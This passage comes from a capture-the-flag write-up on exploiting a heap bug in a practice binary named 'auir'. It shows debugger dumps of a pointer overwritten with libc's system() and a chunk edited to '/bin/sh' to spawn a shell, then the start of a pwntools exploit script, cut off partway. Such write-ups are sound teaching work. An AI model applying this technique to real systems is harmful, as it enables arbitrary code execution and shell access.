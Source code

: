 ```
gef➤  x/10g 0x605310
0x605310:	0x0000000000605060	0x0000000000fd6d20
0x605320:	0x0000000000fd6da0	0x0000000000fd6ea0
0x605330:	0x0000000000fd6da0	0x0000000000fd6e10
0x605340:	0x0000000000fd6e10	0x00000000006052fd
0x605350:	0x0000000000000000	0x0000000000000000
gef➤  x/g 0x605060
0x605060:	0x00007f56bc685390
gef➤  x/i 0x00007f56bc685390
   0x7f56bc685390 <system>:	test   rdi,rdi
```

Lastly we will just edit the chunk at index `1` to be `/bin/sh\x00` (we could of just created the chunk to have that string, but that would make sense):

```
gef➤  x/10g 0x605310
0x605310:	0x0000000000605060	0x0000000000fd6d20
0x605320:	0x0000000000fd6da0	0x0000000000fd6ea0
0x605330:	0x0000000000fd6da0	0x0000000000fd6e10
0x605340:	0x0000000000fd6e10	0x00000000006052fd
0x605350:	0x0000000000000000	0x0000000000000000
gef➤  x/s 0xfd6d20
0xfd6d20:	"/bin/sh"
```

After that, we just have to free the chunk at index `1` and it will run `system("/bin/sh")` and give us our shell!

## Exploit

Putting it all together, we get the following exploit. In order for this exploit to work, you do need to run it with libc version `libc-2.23.so`. Also I ran this exploit on Ubuntu 16.04:

```
from pwn import *

# Establish the target binary and libc version
target = process('./auir', env={"LD_PRELOAD":"./libc-2.23.so"})
elf = ELF('./auir')
libc = ELF('libc-2.23.so')
#gdb.attach(target)

#Establish the functions to interact with the elf
def makeZealot(size, content):
	target.recvuntil(">>")
	target.sendline('1')
	target.recvuntil(">>")
	target.sendline(str(size))
	target.recvuntil(">>")
	target.send(content)

def destroyZealot(index):
	target.recvuntil(">>")
	target.sendline('2')
	target.recvuntil(">>")
	target.sendline(str(index))

def fixZealot(index, size, content):
	target.recvuntil(">>")
	target.sendline('3')
	target.recvuntil(">>")
	target.sendline(str(index))
	target.recvuntil(">>")
	target.sendline(str(size))
```